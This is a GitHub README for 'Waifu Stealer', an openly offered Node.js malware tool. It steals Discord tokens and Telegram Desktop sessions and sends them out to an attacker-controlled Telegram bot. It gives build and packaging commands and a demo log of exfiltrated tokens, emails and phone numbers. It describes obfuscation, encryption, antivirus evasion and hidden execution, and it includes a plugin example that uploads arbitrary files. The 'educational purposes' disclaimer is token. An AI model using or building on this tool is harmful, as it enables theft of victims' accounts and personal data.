

# Waifu Stealer

🗡️🟠 Stealer with a powerful plugin system (includes Discord and Telegram plugins)

Works all operating systems, see [System compatibility](#system-compatibility).

## Features

- Source is highly obfuscated using [javascript-obfuscator](https://github.com/javascript-obfuscator/javascript-obfuscator)
- Source is encrypted using `AES-256-GCM`
- Output binary is packaged to a single portable binary using [pkg](https://github.com/vercel/pkg)
- Steal Telegram Desktop sessions (if target has a local password, you need it to unlock the session)
- Steal Discord tokens from clients (and decrypt them) and browsers (every profiles)
- Send data to Telegram using webhooks

Included Plugins:

- [Telegram Stealer](https://github.com/rigwild/telegram-stealer) - Steal Telegram Desktop sessions
- [Discord Stealer](https://github.com/rigwild/discord-stealer) - Steal Discord tokens from clients and browsers

Because Node.js is an interpreted language, this is very stealth. You can easily bypass AVs. I will not give advice on how to do this, though 😉.

## Caveats

As this project uses Node.js, its binary need to be included. Therefore, the executable is huge (+35 MB). Trying to pack with UPX breaks the executable 😕.

If you know a tool similar to [pkg](https://github.com/vercel/pkg) that would download the Node.js binary at runtime instead of bundling it (to generate a small binary), [create a discussion](https://github.com/rigwild/waifu-stealer/discussions/new)!

## Demo



```
PS C:\Users\x\waifu-stealer> node builder.js --chatId=12345678 --token=12345678:45545duuyESn3GFZfeefezfzfrehgte515tcr3EsaK65D3I --debug --no-random-delays

Replaced dynamic imports with explicit static imports
Copied entrypoint and plugins to C:\Users\x\waifu-stealer\obfuscated
Obfuscated entrypoint to C:\Users\x\waifu-stealer\obfuscated\index.js
Obfuscated plugin [discord-stealer-plugin] to C:\Users\x\waifu-stealer\obfuscated\plugins\discord-stealer-plugin\lib.js
Obfuscated plugin [telegram-stealer-plugin] to C:\Users\x\waifu-stealer\obfuscated\plugins\telegram-stealer-plugin\lib.js
Bundled entrypoint and plugins together
Encrypted bundle to C:\Users\x\waifu-stealer\obfuscated\index.js
Obfuscated the decryptor to C:\Users\x\waifu-stealer\obfuscated\index.js
Copying native modules:
  C:\Users\x\waifu-stealer\node_modules\win-dpapi\build\Release\node-dpapi.node
Done! ✌️


PS C:\Users\x\waifu-stealer> npm run pkg-windows

> pkg-windows
> pkg --targets node18-win-x64 --compress GZip --output hello.exe obfuscated/package.json

> pkg@5.8.0
compression:  GZip

PS C:\Users\x\waifu-stealer> .\hello.exe
Welcome to Waifu Stealer!
HWID: xxxxxxxxxxxxxxxxxxxxxxx1234567890
Loading plugins...
  [discord-stealer-plugin]... OK! ✌️
  [telegram-stealer-plugin]... OK! ✌️

Loaded plugins: [discord-stealer-plugin], [telegram-stealer-plugin]

Let's go! 💥


Running plugin [discord-stealer-plugin]! ⭐
Look in Discord Client - C:\Users\x\AppData\Roaming\discord\Local Storage\leveldb
  Found token NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
Skip Discord Canary Client (not found) - C:\Users\x\AppData\Roaming\discordcanary\Local Storage\leveldb
Skip Discord PTB Client (not found) - C:\Users\x\AppData\Roaming\discordptb\Local Storage\leveldb
Skip Opera (not found) - C:\Users\x\AppData\Roaming\Opera Software\Opera Stable\Local Storage\leveldb
[...]
Skip Chrome (not found) - C:\Users\x\AppData\Local\Google\Chrome\User Data\Default\Local Storage\leveldb
Skip Epic Privacy Browser (not found) - C:\Users\x\AppData\Local\Epic Privacy Browser\User Data\Local Storage\leveldb
Look in Firefox - C:\Users\x\AppData\Roaming\Mozilla\Firefox\Profiles
  Found token NDMxNzxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
  Found token NDMxNzxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
Check Discord tokens using the API
  Checking token NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    Found user hello#1234 (id=123456789123456789, email=xxxxxx@gmail.com, phone=+4161234123)
  Checking token NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    Found user qwerty#9876 (id=223456789123456789, email=yyyyyyy@gmail.com, phone=+622284129302)
  Checking token NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    Token is invalid or expired
  Checking token NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    Found user xdxdxd#4567 (id=323456789123456789, email=zzzzzz@gmail.com, phone=null)

[discord-stealer-plugin] sent a message via Telegram: ``NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx`
User: `hello#1234`
ID: `123456789123456789`
Email: xxxxxx@gmail.com
Phone: +41646211152
Email verified: true
MFA Enabled: true
Bot: false

`NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx`
User: `qwerty#9876`
ID: `223456789123456789`
Email: yyyyyyy@gmail.com
Phone: +6287895939302
Email verified: true
MFA Enabled: false
Bot: false

`NDExMTxxxxxxxxxxxxxxxxxx.xxxxxx.xxxxxxxx-xxxxxxxxxxxxxxxxxxxxxxxxxxxxx`
User: `xdxdxd#4567`
ID: `323456789123456789`
Email: zzzzzz@gmail.com
Phone:
Email verified: true
MFA Enabled: false
Bot: false`


Running plugin [telegram-stealer-plugin]! ⭐
[telegram-stealer-plugin] uploaded a file via Telegram: `xxxxxxxxxxxxxxxxxxxxxxx1234567890.zip` - New Telegram Desktop session archive\!
Archive Password: `rigwild/telegram-stealer`

Every plugin finished executing! 🎉
✅ Plugin [discord-stealer-plugin] was successful!
✅ Plugin [telegram-stealer-plugin] was successful!
```

## System compatibility

| Plugin             | Windows | Linux / MacOS |
| ------------------ | :-----: | :-----------: |
| `telegram-stealer` |   ✅    |      ✅       |
| `discord-stealer`  |   ✅    |      ❌       |

## Build

### Prerequisites

- Node.js v16+

If you want to use the `discord-stealer` plugin, you also need:

- Windows (uses [DPAPI](https://en.wikipedia.org/wiki/Data_Protection_API) to decrypt Discord tokens), see https://stackoverflow.com/a/59882818
- Visual C++ Build Tools (using a recent Node.js installer can set it up for you!)

### Install

```sh
git clone https://github.com/rigwild/waifu-stealer.git
cd waifu-stealer

# Install the plugins you need (check system compatibility above)
git clone https://github.com/rigwild/discord-stealer.git plugins/discord-stealer-plugin
git clone https://github.com/rigwild/telegram-stealer.git plugins/telegram-stealer-plugin

npm install --global pkg
npm install --dev
```

### Generate binary

- `chatId`: Telegram chat ID
- `token`: Telegram bot token
- `debug`: Debug mode (prints more info)
- `no-random-delays`: Do not wait (if not provided, the script will randomly wait between 5 and 35 seconds before running and before starting each plugin)
- `disabled-plugins`: Comma-separated list of plugins to disable (i.e. `discord-stealer-plugin,telegram-stealer-plugin`)

```sh
# Obfuscate and encrypt the code
npm run -- build --chatId=<telegram_chat_id> --token=<telegram_token> [--no-random-delays] [--disabled-plugins=<plugin1,plugin2,...>] [--debug]
# node builder.js [...]

# Generate the binary for the target system and architecture
npm run pkg-windows
npm run pkg-linux
npm run pkg-linux-arm
npm run pkg-macos
npm run pkg-macos-arm
```

## Run

Run the `hello.exe` binary.

If you want to execute the binary by double clicking on it, hide the console window by running the provided VB script (see [`run_hidden_windows.vbs`](./run_hidden_windows.vbs)).

## Create your own plugin

Your project's entrypoint must be called `lib.js`. Your project folder must be placed in the [`plugins`](./plugins) directory and have its name end with `-plugin`.

If you have dependencies (`package.json`), do not forget to install them. An NPM workspace is configured for plugins, so running this in the `waifu-stealer` root directory should auto-resolve plugins dependencies.

```sh
npm install --dev
```

Your `lib.js` file must export a function called `run`, which will be awaited.

The data returned by your `run` function will get sent to the Telegram chat (string: sent as is, object: JSON prettified in a code block), returning is optional.

Provided functions:

- `sendMessageFn`: Send a message to the Telegram chat
- `uploadFileFn`: Upload a file to the Telegram chat

Example minimal plugin:

```js
/**
 * @typedef RunArg Waifu Stealer passed functions
 * @type {object}
 * @property {((text: string) => Promise<void>)?} sendMessageFn
 * @property {((filePath: string, filename: string, caption: string) => Promise<void>)?} uploadFileFn
 */

/**
 * @param {RunArg} arg0
 * @returns {Promise<string | void>}
 */
async function run({ sendMessageFn, uploadFileFn }) {
  // Your code here
  console.log('Hello World!')
  await sendMessageFn('Hello World Telegram!')
  await uploadFileFn(`C:\\Windows\\regedit.exe`, `regedit.exe`, 'hey, this is a regedit.exe')
  return 'This string will be printed to the Telegram chat too'
}

module.exports = { run }
```

**Note:** Do not use ESM as [pkg](https://github.com/vercel/pkg) does not support it.

## License

This is for educational purposes only, to understand how malwares work.

Do not use it maliciously or on any machines that you do not have the permission for(🤔). Be gentle, my dear, and don't hurt anyone.

I am not responsible for any harm you do with this shit, bruh, let me breath.

[The MIT license](./LICENSE)
